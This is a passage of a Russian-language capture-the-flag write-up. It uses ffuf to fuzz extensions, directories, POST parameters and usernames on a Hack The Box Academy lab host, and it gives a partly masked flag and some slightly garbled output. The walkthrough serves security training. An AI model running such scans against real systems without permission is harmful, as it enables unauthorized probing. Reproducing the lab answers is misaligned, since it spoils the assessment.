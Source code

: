 ```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://faculty:47287/indexFUZZ  
.php7
```

На одной из страниц, которые вы определите, должно быть написано «У вас нет доступа!». Что такое полный URL-адрес страницы?

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u <http://faculty.academy.htb:47287/FUZZ> -recursion -recursion-depth 1 -e .php -v -t 80  
index.hph7  
courses  
linux-security.php7
```

`http://faculty.academy.htb:47287/courses/linux-security.php7`

### Задача 5: Идентификация параметров и фаззинг

В пятой задаче нам нужно определить параметры, принимаемые конкретной страницей, полученной на предыдущем шаге. Для этого мы выполняем следующую команду:

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:PORT/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded'  
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:30796/courses/linux-security.php7 -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs 774
```

Выходные данные сканирования показывают два параметра: '' и '.'`user``username`

Далее от нас требуется размыть идентифицированные параметры с рабочими значениями, чтобы получить флаг. Мы можем сделать это с помощью следующей команды:

```bash
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:30401/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'  
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:30401/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs 781
```

Ответ содержит флаг: `HTB{w3b_fuzz1n6_******}`

### Заключение

В этой статье мы рассмотрели процесс решения различных проблем веб-фаззинга, возникающих в соревновании CTF. Мы узнали, как выполнять фаззинг VHost, фаззинг параметров, создание списков слов и сканирование фаззинга для поддоменов, расширений и параметров. Выполнив эти шаги и используя инструмент, мы успешно получили нужные флаги. Веб-фаззинг является важнейшим навыком в области кибербезопасности, позволяющим нам обнаруживать уязвимости и потенциальные векторы атак.`ffuf`

---